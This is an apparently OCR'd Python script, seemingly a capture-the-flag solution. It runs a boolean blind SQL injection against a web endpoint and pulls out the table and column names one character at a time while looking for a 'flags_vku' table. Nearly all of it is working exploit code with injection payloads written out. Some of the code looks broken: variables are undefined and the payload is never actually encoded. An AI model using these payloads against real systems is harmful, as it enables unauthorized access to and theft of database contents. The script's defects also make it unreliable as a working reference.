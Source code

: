 ```python
encode_data_add ={
    "data":"eyJ1c2VybmFtZV9hZGRfc3FsIjoiaGFja2luZyIsInBhc3N3b3JkX2FkZF9zcWwiOiJoYWNraW5nIiwicmVxdWVzdE1ldGhvZCI6ImFkZFVzZXIifQ=="
}

json_data_get = json.dumps(encoded_data_get);
json_data_add = json.dumps(encode_data_add);

#GET LENGHT FOR STRING TABLE
length_table=0
while True:
    payload = f"users 123' OR (SELECT LENGTH(GROUP_CONCAT(TABLE_NAME)) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = database()) = {length_table} ; ##"
    encoded_data = base64.b64encode(dataClear.encode()).decode()
    data = {
        "data": encoded_data
    }
    json_data = json.dumps(data)

    response_add = requests.post(url=url + post_delete, data=json_data_add,  allow_redirects=False, verify=False)
    response_delete = requests.post(url=url + post_delete, data=json_data,  allow_redirects=False, verify=False)
    response_result = requests.get(url=url + post_delete, data=json_data_get, allow_redirects=False, verify=False)
    response_data = json.loads(response_result.text)
    print(payload)
    if response_data == "EMPTY":
        break
    length_table+=1
#GET TABLE 
table_string=""
for i in range(1,length_table+1):
    for char in list_wordlist:
        payload = f"users 123' OR (SELECT SUBSTRING((SELECT (GROUP_CONCAT(TABLE_NAME)) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = database()), {i}, 1) = '{char}') ; ##"
        encoded_data = base64.b64encode(dataClear.encode()).decode()
        data = {
            "data": encoded_data
        }
        json_data = json.dumps(data)

        response_add = requests.post(url=url + post_delete, data=json_data_add,  allow_redirects=False, verify=False)
        response_delete = requests.post(url=url + post_delete, data=json_data,  allow_redirects=False, verify=False)
        response_result = requests.get(url=url + post_delete, data=json_data_get, allow_redirects=False, verify=False)
        response_data = json.loads(response_result.text)
        print(payload)
        if response_data == "EMPTY":
            table_string+=char
            break
table = table_string.split(",")
print(f"table is {table}")
for table_child in table:
    if table_child != 'flags_vku':
        continue
    #GET LENGHT COLUMNS
    lenght_colums=0
    while True:
        payload = f"users 123' OR (SELECT LENGTH(GROUP_CONCAT(COLUMN_NAME)) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = '{table_child}') = {lenght_colums} ; ##"
```